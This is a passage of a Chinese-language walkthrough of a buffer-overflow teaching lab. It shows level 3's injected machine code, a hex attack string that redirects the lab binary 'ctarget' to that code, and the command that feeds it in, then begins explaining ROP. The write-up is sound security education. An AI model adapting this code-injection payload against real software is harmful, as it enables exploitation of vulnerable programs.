 
### 步骤2：生成攻击字符串
将其保存为文本cl2.3，编译并反汇编
```bash
gcc -c cl2.3 
objdump -d cl3.o 
```

最终得到它的16进制的表示如下
```x86asm
   0:	bf 87 dc 61 55       	mov    $0x5561dc87,%edi
   5:	48 83 ec 50          	sub    $0x50,%rsp
   9:	68 fa 18 40 00       	pushq  $0x4018fa
   e:	c3                   	retq   
```
仿照第2关的方法生成攻击字符串，将以下内容保存到cl3.txt，前2行是攻击代码，第3行是我们放置到缓冲区的字符串，第6行是getbuf运行完毕之后需要跳转到的地址
```C
bf 88 dc 61 55 48 83 ec
50 68 fa 18 40 00 c3 00
35 39 62 39 39 37 66 61
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
```

运行以下代码即可通关
```BASH
./hex2raw < cl3.txt | ./ctarget -q
```

---
## 第4关
前面3关的攻击方式是代码注入，但是DEP（Data Execution Prevention）和ASLR（Address Space Layout Randomization）可以很好地防御这种攻击。但是道高一尺魔高一丈，ROP的出现使得攻击手法更加高明，当我第一次看到ROP的时候不禁感叹人类的聪明才智真是璀璨。

### ROP简要说明
简单来说，ROP是利用已经存在于系统的合法代码片段（gadget），组成一个执行链来实现攻击，如下图所示：
![cl1.jpg](/imgs/attack_lab_rl1.jpg)
